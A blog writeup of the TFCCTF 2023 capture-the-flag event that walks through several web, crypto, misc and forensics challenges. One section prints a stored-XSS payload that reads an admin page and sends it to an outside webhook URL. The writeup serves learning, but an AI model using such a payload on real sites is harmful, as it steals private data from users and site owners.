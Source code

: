 ```yaml
---
title: "TFCCTF 2023 Writeup"
date: 2023-07-30T09:16:29-07:00
description: The TFCCTF 2023 writeup. 2 web, 1 crypto, 1 misc
images:
  - images/2023-07-30/TFCCTF-2023.png
tags:
  - ctf
---
```


[The Few Chosen](https://ctf.thefewchosen.com/) hosted their third annual Capture The Flag (CTF) event. A lot of teams participated. It was very interesting and had a lot of solving them. To me, this was a great educational CTF and beginner friendly.

### web/BABY DUCKY NOTES
* solved
* solves: 443
* description: Quack quack! Try and huack me!

The challenge was a note taking web app. Users can view other people's posts but posts can be hidden. The flag was in the `admin`'s first post. This one was easy since the admin post was not hidden. Simply sign up and view the `admin`'s post 

```python
    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            0
    );
    ''')
```

{{< figure
    src="/images/2023-07-30/ducky-1.png"
    alt="A screenshot of the BABY DUCKY NOTES challenge"
>}}

Then we get the flag `TFCCTF{Adm1n_l0St_h1s_m1nd!}`

### web/BABY DUCKY NOTES: REVENGE
* solved
* solves: 175
* description: Quack quack! Try and huack me! Again!

The challenge has patched the previous issue and made the post hidden. I tried to see if there was a way to do SQL injection, no luck. I tried to see if I can forge the cookie to pretend I was the `admin`. I found [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) that can fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. This time the secret key was random so I couldn't forge it. It was fun to play around with the idea.

```python
app.secret_key = os.urandom(30).hex()
```

The app has a way to report a user and a bot will visit that user's post page. This can be used to our advantages. If we can somehow xss my own user's page then I can navigate to admin's own page to steal the flag.

```html
<p> {{post.get('content') | safe}} </p>
```
This code is from the post template. The usage of `safe` means that Flask will not sanitize the post content which allows us to XSS. This was my payload. It navigates to admin's page and relay the HTML response to the webhook site in the body for me.

```html
<script>
  fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(res => {
    fetch('https://webhook.site/f87a15ba-36e1-4b45-a310-53dd5247a133', {method: 'POST', body: res});
  })
</script>
```

{{<figure
    src="/images/2023-07-30/ducky-2.png"
    alt="A screenshot of the response in webhook with flag in the body"
>}}

Then we get the flag `TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`


### crypto/MAYDAY
* solved
* solves: 651
* description: We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

The message reads

```
Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven
```

This is the phonetic spelling. Just change dash and number words to `-` and numbers, and first letter of each word. You get the flag `TFCTF{WH4T-AR3-YOU-S1NKING-4B0U7}`

I found out that there is a website that for this decoding: https://cryptii.com/. Select "Spelling alphabets". A pretty cool tool. It seems similar to cyberchef.


### misc/Discord Shenanigans V3
* solved
* solves: 146
* description: Oh, look who's back for more chaotic fun! The annual wild ride of DISCORD SHENANIGANS V3 is live, and this time we're serving a delicious dish of digital disorder, courtesy of our mischievous Discord bot. For those with a discerning eye and a knack for unscrambling the scrambled, this game is your pixelated playground. The flag, you ask? Well, it's tucked away in a place that's right in front of you, yet often overlooked. Seek the unseen, unravel the unexpected, and let the shenanigans begin!

The flag was in the discord bot's profile picture. Open in a new tab to see the flag.

{{<figure
    src="/images/2023-07-30/discord.png"
    alt="The discord bot's profile picture with the flag"
    width="20%"
>}}


### forensics/DOWN BAD
* not solved
* solves: 238
* description: The flag is right there!

You get a png file but cannot be opened. It seems like something is wrong with the file. Using `exiftool` does not tell me much. It says it was made with `http://www.pdf-tools.com` so I wasted sometime to see if I can convert png to pdf or vise versa.

Use `binwalk` says it's a PNG and Zlib compressed. All PNG are Zlib compressed so looks like there are not hidden file inside the image.

Use `pngcheck` to see what's wrong.

```bash
➜  DOWN-BAD pngcheck -c down_bad.png
down_bad.png  CRC error in chunk IHDR (computed 1d9c52c0, expected a9d5455b)
ERROR: down_bad.png
```

After correctly the CRC, the image is showing but does not show the flag.

{{< figure
    src="/images/2023-07-30/down_bad_fixed.png"
    alt="The down bad image after fixing CRC"
    width="30%"
>}}

I tried a couple of other tools, `strings`, `stegsolve` but nothing turned out to be useful.

After the event, I found out, instead of fixing the CRC, we should be fixing the height to match the CRC. CRC is calculate based on header information. So we can find out the original height by brute forcing CRC check.

I found this [script: png-unhide](https://github.com/ryanking13/png-unhide) later. It detects the real height and fix it for you.

```bash
➜  DOWN-BAD python3 checker.py down_bad-fixed.png
[*] Height in the IHDR: 0x490
[*] Real Height: 0x540
[!!] Wrong size in the IHDR
Automatically fix the IHDR? (Y/N)y
[*] Fixed file saved to down_bad-fixed_fixed.png
```

{{< figure
    src="/images/2023-07-30/down_bad_flag.png"
    alt="The down bad image with flag"
    width="30%"
>}}

Someone also mentioned https://fotoforensics.com/ in the discord chat where you can see hidden rows in a file. It is a nice tool.

This challenge reminded of the `papapa` from Google's 2023 CTF. Both are changing the dimension to find out the true size of the image. I might look into the actual spec of both PNG and JPEG later. 



### crypto/DIZZY
* not solved
* solves: 411
* description: Embark on 'Dizzy', a carousel ride through cryptography! This warmup challenge spins you around the basics of ciphers and keys. Sharpen your mind, find the flag, and remember - in crypto, it's fun to get a little dizzy!

Message: 
```
T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24
```

I forgot about the super useful https://www.dcode.fr/ site that can help you guess the cipher for you. Putting the message in it guess the flag to be using "Letters Positions" `TFCCTF{th_chllng_mks_m_dzzy_;d}` but this was incorrect.

The letters positions encryption is straightforward. The word/string to be encoded is decomposed of characters/letters. For example: `T4` means `T` is in position `4`.

The actual message has 40 segments meaning 40 characters. `dcode` only returned 31 characters. We can write a simple script to decode this.

```python
cipher = 'T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24'.split()
flag = [''] * len(cipher)
for pair in cipher:
    char, pos = pair[0], int(pair[1:])
    flag[pos] = char

print(''.join(flag))
```

The script returns the flag `TFCCTF{th15_ch4ll3ng3_m4k3s_m3_d1zzy_;d}`

## Conclusion

This was a great CTF to me. The site aesthetics was great. The warmup challenges were great for beginner like me to ease into the event. Love see some other events for like this.
